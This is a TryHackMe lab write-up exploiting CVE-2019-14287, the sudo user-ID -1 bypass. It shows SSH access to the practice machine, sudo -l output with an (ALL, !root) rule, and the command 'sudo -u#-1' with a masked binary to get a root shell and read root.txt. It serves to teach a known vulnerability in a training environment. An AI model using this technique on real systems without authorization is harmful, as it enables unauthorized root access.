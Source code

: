 # Sudo Security Bypass

## Room
This a Try Hack Me room called `Sudo Security Bypass` 

The Web address for this room is
https://tryhackme.com/room/sudovulnsbypass

## Synopsis.
A tutorial room exploring CVE-2019-14287 in the Unix Sudo Program. Room One in the SudoVulns Series


---

## Getting started

Make sure you are connected to the Try Hack Me VPN before starting!

The first thing I do when starting a room is to note the victim and attacker's IP as given by Try Hack Me.

```
export MYIP=10.9.9.10
export IP=10.10.10.10
```

This format allows me to copy and paste in any terminal and use `$IP` anytime I need the victim's IP or `$MYIP` if I need my own

---

## Task 1 - Deploy!

This room is very beginner friendly. Enjoy the read, hit deploy, go.

---

## Task 2 - Security Bypass

I highly recommend reading through the explanations before getting started with the rest. You will find it very useful.

### #1 - What command are you allowed to run with sudo?

We are told to SSH to the machine with the following information (and we didn't even have to work for it!):
```
port: 2222
Username: tryhackme
Password: tryhackme
```

This gives us the following command:
```ssh -p 2222 tryhackme@$IP```

Once we are in, we can run sudo -l to see what we can execute as sudo.
```sudo -l```

```
User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /xxx/xxxx
```    

You will find only one command is available. Go back to the explanations above the questions. this format `(ALL, !root)` is the one susceptible to CVE-2019-14287. It means we can pretend to be root by acting as user with id -1 and effectively become root.

A great ressource to always try when you find commands you can execute with sudo-l is https://gtfobins.github.io/

Type in the name of the command you found with sudo -l and click on the result to see the page.

The result is quite self-explanatory: 

```
Shell
It can be used to break out from restricted environments by spawning an interactive system shell.
  xxxx
```

This tells us we can escalate our privileges if we are able to run this command acting as root (with sudo).

Now let's piece it all together by following the hints from the description and adding this command :

```
sudo -u#-1 xxxx
```
Again replace xxxx with the command.

You should now be root

```
tryhackme@sudo-privesc:/$ sudo -u#-1 xxxx
root@sudo-privesc:/# 
```

And now, for the easy part, get the root.txt file in the root folder:

```
cd /root
ls
cat root.txt
```
